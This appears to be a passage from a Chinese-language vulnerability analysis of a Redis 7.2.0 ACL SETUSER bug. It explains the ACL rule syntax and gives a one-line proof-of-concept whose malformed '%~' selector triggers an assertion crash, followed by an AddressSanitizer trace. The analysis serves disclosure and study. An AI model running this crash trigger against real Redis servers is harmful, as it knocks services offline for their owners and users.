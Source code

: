 该漏洞产生于ACL SETUSER命令的处理逻辑当中，ACL SETUSER命令的语法如下，针对设置的user，可以配置多个规则。  
  
  
```
语法：ACL SETUSER username [rule [rule ...]]引入自:RedisOpen Source 6.0.0时间复杂度:O(N). ACL 类别:@admin, @slow, @dangerous
```  
  
  
  
Redis ACL规则分为两类：1. 定义命令权限的规则，即命令规则；2. 定义用户状态的规则，即用户管理规则。  
****  
  
**1.命令规则（部分）**  
  
~<<pattern>pattern>：将指定的键模式（glob样式模式，类似于KEYS命令）添加到用户可访问的键模式列表中。这将为匹配该模式的键授予读和写权限。可以向同一个用户添加多个键模式。  
  
%R~<<pattern>pattern>:（在Redis 7.0及以后版本中可用）添加指定的读取键模式。这与常规的键模式类似，但只授予权限从匹配给定模式的键中读取数据。  
  
%W~<<pattern>pattern>:（在Redis 7.0及以后版本中可用）添加指定的写键模式。它的行为类似于常规的键模式，但只允许对匹配给定模式的键进行写操作。  
  
%RW~<<pattern>pattern>:（可在Redis 7.0及以后版本中使用），是第一个规则的别名。  
****  
  
**2.用户管理规则（部分）**  
  
on：将用户设置为激活，可以使用AUTH <username> <password>作为该用户进行身份验证。  
  
off：将用户设置为未激活，将无法以此用户登录。如果一个用户在已经通过该用户的身份验证的连接之后被禁用（设置为off），那么该连接将继续按预期工作。  
  
nopass：用户被设置为无密码用户。这意味着可以使用任何密码进行身份验证。  
##   
## PoC：  
  
使用ACL SETUSER命令构造一个恶意的命令规则，在获取user的规则时即可触发断言错误。  
  
  
```
ACL SETUSER user %~ACL GETUSER user
```  
  
  
  
ASAN追踪漏洞，可以发现PoC在src/acl.c:307引发了崩溃。看到调用栈上面还有对_serverPanic的调用，可以判断这是一个断言错误，即redis对非预期的结果进行了断言处理。  
  
  
```
==36101==ERROR: AddressSanitizer: unknown-crash on address 0x0000800f7000 at pc 0x7f8835527956 bp 0x7ffe2f073940 sp 0x7ffe2f073100READ of size 1048576 at 0x0000800f7000 thread T0#0 0x7f8835527955 in memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115#1 0x557a2d158714 in memtest_preserving_test /opt/redis-7.2.0/src/memtest.c:317#2 0x557a2d1130b4 in memtest_test_linux_anonymous_maps /opt/redis-7.2.0/src/debug.c:2005#3 0x557a2d1132bd in doFastMemoryTest /opt/redis-7.2.0/src/debug.c:2046#4 0x557a2d113f8c in printCrashReport /opt/redis-7.2.0/src/debug.c:2190#5 0x557a2d111788 in _serverPanic /opt/redis-7.2.0/src/debug.c:1158#6 0x557a2d227284 in sdsCatPatternString /opt/redis-7.2.0/src/acl.c:307#7 0x557a2d23550c in aclAddReplySelectorDescription /opt/redis-7.2.0/src/acl.c:2723#8 0x557a2d23657f in aclCommand /opt/redis-7.2.0/src/acl.c:2844#9 0x557a2d001571 in call /opt/redis-7.2.0/src/server.c:3519#10 0x557a2d0055cb in processCommand /opt/redis-7.2.0/src/server.c:4160#11 0x557a2d04439a in processCommandAndResetClient /opt/redis-7.2.0/src/networking.c:2466#12 0x557a2d0448ab in processInputBuffer /opt/redis-7.2.0/src/networking.c:2574#13 0x557a2d04578c in readQueryFromClient /opt/redis-7.2.0/src/networking.c:2713#14 0x557a2d23d24f in callHandler /opt/redis-7.2.0/src/connhelpers.h:79#15 0x557a2d23e728 in connSocketEventHandler /opt/redis-7.2.0/src/socket.c:298#16 0x557a2cfe45fd in aeProcessEvents /opt/redis-7.2.0/src/ae.c:436#17 0x557a2cfe4cf0 in aeMain /opt/redis-7.2.0/src/ae.c:496#18 0x557a2d01798c in main /opt/redis-7.2.0/src/server.c:7360
```  
  